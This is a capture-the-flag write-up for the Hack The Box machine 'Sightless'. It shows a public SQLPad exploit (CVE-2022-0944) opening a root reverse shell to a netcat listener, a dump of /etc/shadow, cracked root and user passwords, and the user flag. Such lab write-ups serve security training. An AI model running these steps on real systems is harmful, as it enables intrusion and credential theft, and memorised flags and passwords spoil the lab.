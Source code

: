 
https://app.hackthebox.com/machines/Sightless

Nmap scan

> nmap -sCSV -T4 $ip
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 01:36 AEDT
Nmap scan report for 10.10.11.32 (10.10.11.32)
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=6713C3F1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.11 seconds
```

checking http://sightless.htb
fond http://sqlpad.sightless.htb/
fond vulnerability in sqlpad - [here](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
fond more info about the vulnerability - [here](https://github.com/shhrew/CVE-2022-0944?tab=readme-ov-file)
exploit worked

> python3 main.py http://sqlpad.sightless.htb/ 10.10.16.30 9999            
```
[┤] Trying to bind to 10.10.16.30 on port 9999: Trying 10.10.16.30
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/lnxuser/ctfs/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/lnxuser/ctfs/CVE-2022-0944/venv/lib/python3.12/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

>  nc -vlnp 9999
```
listening on [any] 9999 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.32] 37106
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

checking /etc/shadow file

> cat /etc/shadow
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

seems like user flags can be cracked by john the ripper

> john hash -w=/usr/share/wordlists/rockyou.txt    
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:06 DONE (2024-10-20 03:21) 0.3322g/s 10205p/s 17009c/s 17009C/s XIOMARA..sinead1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

after ssh-ing michael I found the user flag

> ssh michael@10.10.11.32 
```        
michael@10.10.11.32's password: 
Last login: Sat Oct 19 16:24:49 2024 from 10.10.16.31
michael@sightless:~$ ls
exploit.py  linpease.sh  new  README  result.txt  user.txt
michael@sightless:~$ cat user.txt 
4e365dc2a4a1350b73e96c3e232fe9e2
```

